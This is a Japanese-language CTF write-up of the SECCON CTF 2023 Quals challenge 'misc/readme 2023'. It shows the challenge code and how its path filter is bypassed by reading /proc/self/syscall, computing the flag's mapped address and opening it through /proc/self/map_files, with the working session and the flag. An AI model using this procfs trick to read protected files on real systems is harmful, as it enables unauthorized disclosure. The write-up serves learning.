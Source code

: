 # SECCON CTF 2023 Quals Writeup

SECCON CTF 2023 Quals（<https://ctftime.org/event/2003/>）に参加しました。  
土, 16 9月 2023, 14:00 JST — 日, 17 9月 2023, 14:00 JST

チーム：OnePaddingで参加して、653チーム中87位（国内：35/334）でした。

一問しか解けなかったですが、学びが結構あったので良かったです。  
Web問は後で復習します。

<!-- @import "[TOC]" {cmd="toc" depthFrom=2 depthTo=3 orderedList=false} -->

<!-- code_chunk_output -->

- [misc/readme 2023](#miscreadme-2023)

<!-- /code_chunk_output -->

## misc/readme 2023

93 solved / 104 points

- 問題コード

```python
import mmap
import os
import signal

signal.alarm(60)

try:
    f = open("./flag.txt", "r")
    mm = mmap.mmap(f.fileno(), 0, prot=mmap.PROT_READ)
except FileNotFoundError:
    print("[-] Flag does not exist")
    exit(1)

while True:
    path = input("path: ")

    if 'flag.txt' in path:
        print("[-] Path not allowed")
        exit(1)
    elif 'fd' in path:
        print("[-] No more fd trick ;)")
        exit(1)

    with open(os.path.realpath(path), "rb") as f:
        print(f.read(0x100))
```

ファイルパスを入力して、flag.txtの中身を読み込めればフラグを取得できる。  
コードを見るとわかるが、`flag.txt`や`fd`が文字中に入っているとプログラムが終了する。

fdが使えれば、以下のようなパスでflag.txtの中身を読み込める。

```text
/proc/self/fd/4
```

今回はfdが使えないため、どうにかする必要がある。  
また、`mm = mmap.mmap(f.fileno(), 0, prot=mmap.PROT_READ)`が使われているのが気になる。  
いろいろ`/proc`配下を調べたところ、`/proc/self/map_files/<ファイルのメモリアドレス>`が使えそうだった。

```sh
path: /proc/self/map_files/7f8922e60000-7f8922e61000
b'FAKECON{******* FIND ME ON REMOTE SERVER *******}\n'
```

メモリにマップされたファイルがシンボリックリンクされているみたい。

```sh
ctf@52f21ee060a3:/$ cat /proc/44/maps
5619764e9000-5619764ea000 r--p 00000000 08:20 508394                     /usr/local/bin/python3.11
5619764ea000-5619764eb000 r-xp 00001000 08:20 508394                     /usr/local/bin/python3.11
5619764eb000-5619764ec000 r--p 00002000 08:20 508394                     /usr/local/bin/python3.11
5619764ec000-5619764ed000 r--p 00002000 08:20 508394                     /usr/local/bin/python3.11
5619764ed000-5619764ee000 rw-p 00003000 08:20 508394                     /usr/local/bin/python3.11
561976572000-56197685a000 rw-p 00000000 00:00 0                          [heap]
7f892278e000-7f892288e000 rw-p 00000000 00:00 0 
7f89228d1000-7f89228d3000 r--p 00000000 08:20 509208                     /usr/local/lib/python3.11/lib-dynload/mmap.cpython-311-x86_64-linux-gnu.so
7f89228d3000-7f89228d5000 r-xp 00002000 08:20 509208                     /usr/local/lib/python3.11/lib-dynload/mmap.cpython-311-x86_64-linux-gnu.so
7f89228d5000-7f89228d7000 r--p 00004000 08:20 509208                     /usr/local/lib/python3.11/lib-dynload/mmap.cpython-311-x86_64-linux-gnu.so
7f89228d7000-7f89228d8000 r--p 00005000 08:20 509208                     /usr/local/lib/python3.11/lib-dynload/mmap.cpython-311-x86_64-linux-gnu.so
7f89228d8000-7f89228d9000 rw-p 00006000 08:20 509208                     /usr/local/lib/python3.11/lib-dynload/mmap.cpython-311-x86_64-linux-gnu.so
7f89228d9000-7f8922b3f000 rw-p 00000000 00:00 0 
7f8922b3f000-7f8922b46000 r--s 00000000 08:20 486465                     /usr/lib/x86_64-linux-gnu/gconv/gconv-modules.cache
7f8922b46000-7f8922b9d000 r--p 00000000 08:20 486112                     /usr/lib/locale/C.utf8/LC_CTYPE
7f8922b9d000-7f8922b9f000 rw-p 00000000 00:00 0 
7f8922b9f000-7f8922baf000 r--p 00000000 08:20 486531                     /usr/lib/x86_64-linux-gnu/libm.so.6
7f8922baf000-7f8922c22000 r-xp 00010000 08:20 486531                     /usr/lib/x86_64-linux-gnu/libm.so.6
7f8922c22000-7f8922c7c000 r--p 00083000 08:20 486531                     /usr/lib/x86_64-linux-gnu/libm.so.6
7f8922c7c000-7f8922c7d000 r--p 000dc000 08:20 486531                     /usr/lib/x86_64-linux-gnu/libm.so.6
7f8922c7d000-7f8922c7e000 rw-p 000dd000 08:20 486531                     /usr/lib/x86_64-linux-gnu/libm.so.6
7f8922c7e000-7f8922ca4000 r--p 00000000 08:20 486492                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8922ca4000-7f8922df9000 r-xp 00026000 08:20 486492                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8922df9000-7f8922e4c000 r--p 0017b000 08:20 486492                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8922e4c000-7f8922e50000 r--p 001ce000 08:20 486492                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8922e50000-7f8922e52000 rw-p 001d2000 08:20 486492                     /usr/lib/x86_64-linux-gnu/libc.so.6
7f8922e52000-7f8922e5f000 rw-p 00000000 00:00 0 
7f8922e60000-7f8922e61000 r--s 00000000 08:20 511429                     /home/ctf/flag.txt
7f8922e61000-7f8922f4f000 r--p 00000000 08:20 508594                     /usr/local/lib/libpython3.11.so.1.0
7f8922f4f000-7f8923103000 r-xp 000ee000 08:20 508594                     /usr/local/lib/libpython3.11.so.1.0
7f8923103000-7f89231e6000 r--p 002a2000 08:20 508594                     /usr/local/lib/libpython3.11.so.1.0
7f89231e6000-7f8923215000 r--p 00384000 08:20 508594                     /usr/local/lib/libpython3.11.so.1.0
7f8923215000-7f8923346000 rw-p 003b3000 08:20 508594                     /usr/local/lib/libpython3.11.so.1.0
7f8923346000-7f892338b000 rw-p 00000000 00:00 0 
7f892338b000-7f892338c000 r--p 00000000 08:20 486474                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f892338c000-7f89233b1000 r-xp 00001000 08:20 486474                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f89233b1000-7f89233bb000 r--p 00026000 08:20 486474                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f89233bb000-7f89233bd000 r--p 00030000 08:20 486474                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7f89233bd000-7f89233bf000 rw-p 00032000 08:20 486474                     /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
7fff3eee6000-7fff3ef07000 rw-p 00000000 00:00 0                          [stack]
7fff3efc6000-7fff3efca000 r--p 00000000 00:00 0                          [vvar]
7fff3efca000-7fff3efcc000 r-xp 00000000 00:00 0                          [vdso]
```

プログラムを実行するたびに該当のアドレスは変わるみたいなので、アドレスが書いてあるファイルを探す。  
ファイルの読み込みバイト上限（0x100）なので、`/proc/self/maps`だと肝心のflag.txtのアドレスは分からない。

`/proc/self/syscall`の一番後ろの値（`0x7f8922d7607d`）が使えそう。

```sh
ctf@52f21ee060a3:/$ cat /proc/44/syscall
0 0x0 0x561976776ff0 0x2000 0x2 0x0 0x0 0x7fff3ef05d98 0x7f8922d7607d
```

しかも、flag.txtのアドレスとの差分が毎回同じようなので、逆算してflag.txtの先頭アドレスを特定できる。  
末尾アドレスは`+ 0x1000`。

- 例

| | |
-- | --
/proc/self/syscall | 7f85f5e9807d
/home/ctf/flag.txt | 7f85f5f82000-7f85f5f83000
[先頭アドレスまでの差分] | e9f83

スクリプトを書いても良かったが、実行時間の制限が60秒なため手動で計算した。

```sh
$ nc readme-2023.seccon.games 2023
path: /proc/self/syscall
b'0 0x7 0x55bfd84bb6b0 0x400 0x2 0x0 0x0 0x7ffca7f7b078 0x7f85f5e9807d\n'
path: /proc/self/map_files/7f85f5f82000-7f85f5f83000
b'SECCON{y3t_4n0th3r_pr0cf5_tr1ck:)}\n'
path:
```

- FLAG

```text
SECCON{y3t_4n0th3r_pr0cf5_tr1ck:)}
```
